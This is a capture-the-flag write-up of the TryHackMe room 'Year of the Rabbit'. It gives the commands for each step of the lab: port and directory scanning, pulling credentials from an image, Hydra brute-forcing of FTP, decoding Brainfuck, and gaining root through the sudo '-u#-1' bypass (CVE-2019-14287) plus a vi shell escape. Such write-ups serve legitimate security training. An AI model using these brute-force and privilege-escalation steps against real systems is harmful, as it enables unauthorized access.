 # Year of the Rabbit - TryHackMe Writeup  

**Author:** Koushiq Murad


## Overview  
**Year of the Rabbit** is categorized as an *Easy* room, but it packs several clever puzzles: steganography, FTP brute-forcing, Brainfuck decoding, and a subtle privilege escalation via a `sudo` vulnerability (CVE-2019-14287).

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.201.20.145
```
**Results**:
- Port 21 – vsftpd 3.0.2 (FTP)  
- Port 22 – OpenSSH 6.7p1 (SSH)  
- Port 80 – Apache 2.4.10 (HTTP)  

---

## 2. Web Enumeration & Steganography

### Finding Hidden Directories
Use Gobuster to discover `/assets/` directory:
```bash
gobuster dir -u http://10.201.20.145 -w /usr/share/wordlists/dirb/common.txt
```

### Inspect the Stylesheet
`/assets/style.css` revealed a hint:
```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

### JavaScript Redirect Trick
Accessing `/sup3r_s3cr3t_fl4g.php` redirects me via JavaScript—disable JS or view headers to capture:
```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```
Visiting the hidden directory reveals `Hot_Babe.png`.

---

## 3. FTP Access via Hidden Credentials

### Extracting FTP Credentials
Use:
```bash
strings Hot_Babe.png
```
This revealed:
```
ftpuser
...a long list of possible passwords...
```

### Brute-Force FTP with Hydra
```bash
hydra -l ftpuser -P passwords.txt ftp://10.201.20.145
```
I crack the password quickly.  

### Download `Eli’s_Creds.txt`
Log in with FTP and retrieve the file—its content is Brainfuck code.

---

## 4. SSH Access via Brainfuck Decoding

### Decode Brainfuck
Use an online interpreter (or local tool) to decode the Brainfuck string in `Eli’s_Creds.txt`, yielding:
```
Username: eli  
Password: <found password>
```

### SSH into the Box
```bash
ssh eli@10.201.20.145
```
Upon login, see a message:
```
Message from Root to Gwendoline:
“...Check our leet s3cr3t hiding place...”
```

---

## 5. Switching to Gwendoline

### Discover Hidden File
Search for “s3cr3t” files:
```bash
find / -iname '*s3cr3t*' 2>/dev/null
```
Inside, I find:
```
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
It reveals Gwendoline’s password.  

### Switch User & Capture user.txt
```bash
su gwendoline
cd ~
cat user.txt
```

---

## 6. Privilege Escalation – Root via `sudo(vi)` Trick

### Check sudo privileges
```bash
sudo -l
```
Shows:  
```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

### Exploit `CVE-2019-14287`
By using `-u#-1`, we bypass the `!root` restriction:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Once `vi` opens, spawn a shell:
```
:!/bin/bash
```
– now a root shell.  

---

## 7. Capture Root Flag
```bash
cd /root
cat root.txt
```

---

##  Flags
- **User flag (Gwendoline):** `THM{...}`  
- **Root flag:** `THM{...}`  

*(Actual flags omitted for spoiler safety.)*

---

##  Key Lessons Learned
- CSS files may contain hidden clues—always inspect them.  
- `strings` is a powerful first step for extracting embedded credentials.  
- Brainfuck is a rare but interesting encoding; online interpreters help.  
- `sudo -u#-1` is a sneaky bypass for misconfigured `NOPASSWD` sudo privileges.

---
